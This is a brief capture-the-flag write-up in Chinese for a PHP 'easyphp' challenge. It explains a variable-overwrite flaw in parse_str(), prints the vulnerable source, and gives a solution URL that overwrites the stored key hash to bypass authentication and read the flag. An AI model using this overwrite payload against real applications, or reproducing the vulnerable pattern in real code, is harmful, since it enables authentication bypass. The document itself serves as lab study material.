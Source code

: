 ```
漏洞：
parse_str($query) 存在變數覆蓋漏洞
與 extract() 類似

<?php
$hashed_key = '79abe9e217c2532193f910434453b2b9521a94c25ddc2e34f55947dea77d70ff';
$parsed = parse_url($_SERVER['REQUEST_URI']);
if(isset($parsed["query"])){
    $query = $parsed["query"];
    $parsed_query = parse_str($query);
    if($parsed_query!=NULL){
        $action = $parsed_query['action'];
    }

    if($action==="auth"){
        $key = $_GET["key"];
        $hashed_input = hash('sha256', $key);
        //echo $hashed_input.'\n';
        if($hashed_input!==$hashed_key){
            die("GTFO!");
        }

        echo file_get_contents("/flag");
    }
}else{
    show_source(__FILE__);
}
?>
```
網址 : [http://easyphp.ctf.euristica.in/](http://easyphp.ctf.euristica.in/)</br>
解答 : http://easyphp.ctf.euristica.in/?action=auth&hashed_key=6ac3c336e4094835293a3fed8a4b5fedde1b5e2626d9838fed50693bba00af0e&key=fuck



